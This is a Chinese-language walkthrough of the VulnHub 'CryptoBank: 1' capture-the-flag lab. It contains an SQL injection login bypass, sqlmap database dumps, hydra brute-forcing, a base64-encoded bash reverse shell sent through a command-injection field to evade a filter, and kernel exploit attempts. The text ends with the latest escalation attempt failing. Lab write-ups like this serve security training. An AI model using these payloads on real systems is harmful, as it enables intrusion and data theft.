# Cryptobank Writeup

這是一台來自 [VulnHub](https://www.vulnhub.com/entry/cryptobank-1,467/) 的 Linux 靶機，名稱為 `CryptoBank: 1`，由 `emaragkos` 發布於 `2020-04-18`。

## 目錄

- [Cryptobank Writeup](#cryptobank-writeup)
  - [目錄](#目錄)
  - [靶機基礎資訊](#靶機基礎資訊)
  - [攻擊鏈摘要](#攻擊鏈摘要)
  - [資訊收集](#資訊收集)
  - [使用 sqlmap 枚舉資料庫資訊](#使用-sqlmap-枚舉資料庫資訊)
  - [破解密碼](#破解密碼)
  - [取得 User Flag](#取得-user-flag)
  - [權限提升](#權限提升)
  - [參考來源](#參考來源)


## 靶機基礎資訊

- 平台：VulnHub
- 靶機名稱：`CryptoBank: 1`
- 作者：`emaragkos`
- 發布日期：`2020-04-18`
- 難度：`Intermediate`
- 目標：取得 cold Bitcoin wallet 對應的 `root flag`
- 虛擬機格式：`OVA`
- 作業系統：`Linux`
- 建議環境：以 `VirtualBox` 為主，`VMware` 應可運行
- 網路設定：`DHCP enabled`，IP 會自動分配



## 攻擊鏈摘要

- 對目標 IP 進行服務枚舉。
- 透過登入頁面的 SQL injection 漏洞取得資料庫內容。
- 從資料庫與站內資訊整理可用帳號，並利用爆破取得有效帳號與密碼。
- 進入 `/development` 後，透過功能頁面中的命令執行能力取得 `reverse shell`。
- 進一步利用核心弱點與 exploit 調整完成權限提升，最終取得 `root` 權限。

## 資訊收集



- 利用 `nmap` 對該 IP 進行掃描。
- 發現靶機開啟的 port 為 `22` 和 `80`。
- 本文中的 `172.20.10.3` 為測試時使用的內網 IP，屬於私有網段。

```bash
nmap 172.20.10.3 -A
```



- 利用 `dirsearch` 枚舉靶機 `80` port 上的其他頁面。

```bash
dirsearch -u http://172.20.10.3
```


- 這是 `80` port 的首頁。



- 出現 DNS 解析問題。



- 在 `/etc/hosts` 中新增 `cryptobank.local`。



- 點擊 `LOGIN` 進入登入畫面。



- 登入頁位於 `http://cryptobank.local/trade/`，右側有一個 `Secure Login` 表單。
- 測試時將 SQL injection payload `"' or 1 -- -"` 輸入 `Username` 欄位，`Password` 不提供有效值後送出。
- 送出後成功繞過驗證，頁面直接進入登入後的 `Trading Platform`，並顯示 `Welcome, williamdelisle`。
- 由於不需要有效帳號與密碼就能登入，因此可以判斷此登入功能存在 SQL injection 漏洞。

## 使用 sqlmap 枚舉資料庫資訊



- 利用 `Burp Suite` 取得請求封包資訊。



- 將攔截到的請求交給 `sqlmap` 測試，並從較小的參數開始枚舉。
- 先確認可枚舉的資料庫：

```bash
sqlmap -r /home/kali/Desktop/burp.txt --level=3 --risk=1 --dbs
```



- 在枚舉資料庫時，可以看到這台靶機上的多個資料庫。
- 確認目標資料庫後，進一步對 `cryptobank` 做資料枚舉：

```bash
sqlmap -r /home/kali/Desktop/burp.txt --level=4 --risk=2 -D cryptobank --tables
```



- 從輸出可以確認 `cryptobank` 資料庫中包含 `accounts`、`comments`、`loans` 三個資料表。
- 最後針對 `accounts` 資料表單獨導出內容：

```bash
sqlmap -r /home/kali/Desktop/burp.txt --level=4 --risk=2 -D cryptobank -T accounts --dump
```



- 從資料表內容中取得帳號與密碼。

## 破解密碼



- 在 `dirsearch` 的結果中可以找到 `/development` 這個頁面。


- 在首頁的 Team 區塊中，將滑鼠移到人物卡片下方的郵件圖示時，瀏覽器左下角會顯示對應的個人連結；截圖中示範的是 `http://172.20.10.3/bill.w`。
- 不只 `Bill White`，另外三位成員的郵件圖示也都有類似情況，表示站內實際使用的帳號格式可能是這類短帳號，而不是只依賴 `sqlmap` 從資料庫直接撈出的名稱。
- 因此我將 `sqlmap` 得到的帳號與密碼分別存成兩個 `.txt` 檔，並額外把首頁觀察到的這些短帳號也加入帳號字典，再交給 `hydra` 進行測試。



- 利用 `hydra` 進行爆破。
- 成功取得帳號與密碼：`julius.b / wJWm4CgV26`

```bash
hydra -L /home/kali/Desktop/username.txt -P /home/kali/Desktop/password.txt 172.20.10.3 http-get /development
```



- `/development` 本身是一個需要登入的 portal，而不是直接可利用的功能頁。
- 利用這組帳號與密碼登入後，頁面本身沒有立即顯示可利用功能，因此需要再往下枚舉已登入狀態下可存取的路徑。



- 利用 `dirb` 掃描 `/development` 這個網址，且需要搭配 `hydra` 爆破出的認證才會有結果。
- 最後可找到三個頁面。



- 其中 `/tool` 頁面提供多個開發工具功能，包含 `Execute a command`、`View a system file`、`Upload a file`。
- 點進 `Execute a command` 後，會進入標題為 `Auth to execute system command` 的表單頁面。
- 後續確認命令注入時，實際可控的欄位是 `Username`。

## 取得 User Flag



- 嘗試直接以這組帳號與密碼登入系統，但沒有額外結果。



- 在 `Auth to execute system command` 表單中，先將 `Username` 欄位替換為系統指令，測試是否存在命令執行行為。



- 第一個用來驗證的指令是 `whoami`。
- 頁面下方直接回顯 `www-data`，表示伺服器端確實有執行輸入的系統指令。
- 從 `whoami` 的結果可知目前身份為 `www-data`，因此可以進一步嘗試取得 `reverse shell`。

```text
username: whoami
```



- 直接使用 `reverse shell` payload 時，發現內容被阻擋。



- 嘗試先將這段 bash 進行編碼後再重新送出。

```bash
echo 'bash -i >& /dev/tcp/172.20.10.2/4896 0>&1' | base64
```

```text
echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMTAuMi80ODk2IDA+JjEK' | base64 -d | bash
```



- 這次將 base64 解碼後執行的 payload 再填回 `Username` 欄位送出後，內容沒有再被阻擋。



- 主機端利用 `netcat` 接收連線，成功取得 reverse shell。

```bash
nc -lvnp 4896
```



- 取得 shell 後，先前往一般使用者的 home 目錄進行搜尋。
- 在該目錄中發現 `User Flag` 檔案。
- 最後使用 `cat` 讀取 flag 內容。
- Flag：`flag{l4szl0h4ny3cz1smyh3r0}`

## 權限提升



- 利用 `uname -a` 取得靶機資訊，核心版本為 `Linux 4.15`。

```bash
uname -a
```



- 利用 `searchsploit` 找到數個可嘗試利用的權限提升弱點。

```bash
searchsploit linux kernel 4.15
```



- 將檔案複製到桌面，方便透過 HTTP 服務傳輸。

```bash
cp /usr/share/exploitdb/exploits/linux/local/47165.sh /home/kali/Desktop
```



- 開啟 HTTP 服務。

```bash
python -m http.server 8888
```



- 更改檔案執行權限後執行腳本，但權限提升失敗。

```bash
chmod +x shell
./shell
```



- 改用另一個腳本。

```bash
cp /usr/share/exploitdb/exploits/linux/local/47165.sh /home/kali/Desktop
```



- 這個 `.sh` 檔需要使用 `gcc`，但靶機並沒有安裝。



- 改為搜尋可利用的權限提升 CVE。
- `CVE-2026-43284`（dirty frag）
- 參考資料：[Wiz Blog](http://wiz.io/blog/dirty-frag-linux-kernel-local-privilege-escalation-via-esp-and-rxrpc) 、[PoC Repository](https://github.com/V4bel/dirtyfrag.git)
- `CVE-2026-31431`（適用版本為 `kernel 4.14-7.0`）
- 參考資料：[iThome 報導](https://www.ithome.com.tw/news/175481) 、[theori-io/copy-fail-CVE-2026-31431](https://github.com/theori-io/copy-fail-CVE-2026-31431.git)



- 將 exploit 檔組裝完成。

```bash
gcc -O0 -Wall -static -o df_exp exp.c -lutil
cp /home/kali/Desktop/dirtyfrag/df_exp /home/kali/Desktop
```



- `dirty frag` 這個弱點腳本無法成功利用。

```bash
chmod +x ./df_exp
./df_exp
```



- 改測另一個 CVE。直接執行 `python3 fail.py` 時，腳本預設嘗試操作 `/usr/bin/su`，但畫面顯示這個路徑在目標主機上不存在，因此利用失敗。

```bash
python3 fail.py
```

